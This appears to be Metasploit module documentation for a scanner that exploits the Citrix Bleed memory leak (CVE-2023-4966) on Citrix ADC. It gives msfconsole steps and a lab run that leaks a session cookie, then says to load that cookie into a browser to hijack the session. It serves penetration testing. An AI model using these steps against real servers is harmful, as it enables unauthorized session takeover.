 ## Vulnerable Application

This module scans for a vulnerability that allows a remote, unauthenticated attacker to leak memory for a target Citrix
ADC server. The leaked memory is then scanned for session cookies which can be hijacked if found.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/citrix_bleed_cve_2023_4966`
4. Do: `set RHOSTS`
5. Do: `run`

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf6 auxiliary(scanner/http/citrix_bleed_cve_2023_4966) > show options 

Module options (auxiliary/scanner/http/citrix_bleed_cve_2023_4966):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    20               yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/citrix_bleed_cve_2023_4966) > run

[+] Cookie: NSC_AAAC=fdac8de9ed76012688b4d33e9d5f74b00c3a0818745525d5f4f58455e445a4a42 Username: metasploit
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/citrix_bleed_cve_2023_4966) >
```

Once the cookie has been leaked, load it into the browser using the developer tools.
